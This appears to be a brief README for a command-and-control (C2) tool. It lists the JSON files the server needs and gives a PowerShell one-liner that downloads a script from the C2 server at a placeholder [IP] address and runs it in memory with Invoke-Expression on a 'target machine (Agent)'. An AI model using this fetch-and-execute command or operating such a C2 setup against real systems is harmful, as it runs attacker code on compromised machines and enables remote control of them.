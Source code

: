 # C2
You should include 3 JSON files in /server directory: agents.json, commands_output.json, commands.json

## Custom powershell script usage:

To run custom powershell scripts on target machine (Agent), you can execute this command:
```powershell
Invoke-Expression ( [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://[IP]:5000/static/uploads/script.ps1").Content) )
```